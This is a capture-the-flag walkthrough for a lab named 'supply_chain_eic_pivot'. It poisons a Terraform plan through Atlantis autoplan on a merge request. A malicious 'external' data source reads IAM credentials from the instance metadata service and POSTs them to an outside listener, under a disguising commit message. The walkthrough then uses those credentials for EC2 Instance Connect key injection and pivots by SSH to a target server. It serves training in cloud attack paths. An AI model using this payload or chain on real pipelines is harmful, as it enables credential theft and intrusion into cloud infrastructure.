

# supply_chain_eic_pivot — Walkthrough

> **WARNING: Full spoilers ahead. Only read this if you are stuck.**

## Exploitation Route



## Summary

1. Log in to GitLab as `000_ops` and discover `infra-repo` with `autoplan.enabled: true` in `atlantis.yaml`
2. Inject a malicious `external` data source into `main.tf`, push a branch, and open a Merge Request to trigger `terraform plan`
3. Capture the Atlantis runner's IAM credentials exfiltrated via IMDS to your external listener
4. Use the stolen credentials to call `ec2-instance-connect:SendSSHPublicKey` and inject your public key into the Bastion Host
5. SSH into the Bastion Host and discover `target-key.pem` at `/home/ubuntu/`
6. Use `target-key.pem` to SSH into the Target Server in the private subnet and read `flag.txt`

## Detailed Walkthrough

### Step 1: GitLab Reconnaissance

Log in to the GitLab instance using the URL and credentials from `assets/gitlab_credentials.txt`.

```
URL:      http://<GITLAB_IP>
Username: 000_ops
Password: BeaverPassword123!
```

Navigate to `infra-repo` → `atlantis.yaml`. The critical misconfiguration is:

```yaml
autoplan:
  enabled: true        # ← terraform plan runs on ANY merge request, no approval needed
apply_requirements: [approved]  # apply requires approval, but plan does not
```

Any `.tf` file change in a Merge Request will trigger `terraform plan` without any review.

### Step 2: Pipeline Poisoning — Injecting Malicious Terraform

Clone the repository and create a new branch:

```bash
git clone http://000_ops:BeaverPassword123!@<GITLAB_IP>/000_ops/infra-repo.git
cd infra-repo
git checkout -b exploit/steal-creds
```

Append the following block to `main.tf`. Replace `<YOUR_LISTENER_URL>` with your webhook endpoint (e.g., [webhook.site](https://webhook.site)).

> **Important:** The `> /dev/null 2>&1` redirect is required. Without it, the curl response body goes to stdout and causes Terraform to fail parsing the `external` data source output.

```hcl
data "external" "steal_creds" {
  program = ["sh", "-c", <<-EOT
    ROLE=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)
    CREDS=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE)
    curl -s -X POST "<YOUR_LISTENER_URL>" \
      -H "Content-Type: application/json" \
      -d "$CREDS" > /dev/null 2>&1
    echo '{"status":"done"}'
  EOT
  ]
}
```

Push and open a Merge Request:

```bash
git add main.tf
git commit -m "chore: update storage config"
git push origin exploit/steal-creds
# Open MR via GitLab UI: exploit/steal-creds → main
```

Atlantis triggers `terraform plan` automatically within seconds of the MR being opened.

### Step 3: Capturing IAM Credentials

Check your listener. You will receive the Atlantis runner's temporary credentials:

```json
{
  "Code": "Success",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "..."
}
```

Configure them locally:

```bash
export AWS_ACCESS_KEY_ID="ASIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."
export AWS_DEFAULT_REGION="us-east-1"
export AWS_PAGER=""   # disable pager so output prints inline

# Verify the stolen identity
aws sts get-caller-identity
```

You should see the Atlantis runner's IAM role in the `Arn` field.

### Step 4: EC2 Instance Connect — Gaining Bastion Access

Enumerate EC2 instances to identify the Bastion Host and Target Server:

```bash
aws ec2 describe-instances \
  --query 'Reservations[].Instances[].[InstanceId,PublicIpAddress,PrivateIpAddress,Tags[?Key==`Name`].Value|[0]]' \
  --output table
```

Look for instances tagged `*-bastion-host-*` and `*-target-server-*`. Note their IDs and IPs.

Generate a throwaway SSH key pair:

```bash
ssh-keygen -t ed25519 -f /tmp/eic-key -N ""
```

Get the Bastion's Availability Zone and push your public key (valid for 60 seconds):

```bash
AZ=$(aws ec2 describe-instances --instance-ids <BASTION_INSTANCE_ID> \
  --query 'Reservations[0].Instances[0].Placement.AvailabilityZone' --output text)

aws ec2-instance-connect send-ssh-public-key \
  --instance-id <BASTION_INSTANCE_ID> \
  --instance-os-user ubuntu \
  --availability-zone $AZ \
  --ssh-public-key file:///tmp/eic-key.pub
```

SSH in immediately (within 60 seconds):

```bash
ssh -i /tmp/eic-key ubuntu@<BASTION_PUBLIC_IP>
```

### Step 5: Lateral Movement — Pivoting to the Target Server

On the Bastion Host, list the home directory:

```bash
ls -la /home/ubuntu/
# You will find: target-key.pem (chmod 400)
```

The Bastion Host does not have AWS CLI installed. Retrieve the Target Server's private IP from your **local machine** using the stolen credentials:

```bash
aws ec2 describe-instances --instance-ids <TARGET_INSTANCE_ID> \
  --query 'Reservations[0].Instances[0].PrivateIpAddress' --output text
```

SSH into the Target Server from the Bastion Host:

```bash
ssh -i /home/ubuntu/target-key.pem ubuntu@<TARGET_SERVER_PRIVATE_IP>
```

### Step 6: Capture the Flag

```bash
cat /home/ubuntu/flag.txt
# FLAG{SUPPLY_CHAIN_EIC_SUCCESS_<hex_string>}
```

---

## Key Vulnerabilities Exploited

| Phase | Vulnerability | Root Cause |
|---|---|---|
| 1 | `autoplan.enabled: true` | Unauthenticated `terraform plan` execution on any MR |
| 2 | IMDS v1 accessible | No IMDSv2-only enforcement on Atlantis runner |
| 3 | Overprivileged IAM role | `ec2-instance-connect:SendSSHPublicKey` on all instances |
| 4 | SSH key left on Bastion | Ops credential hygiene failure |
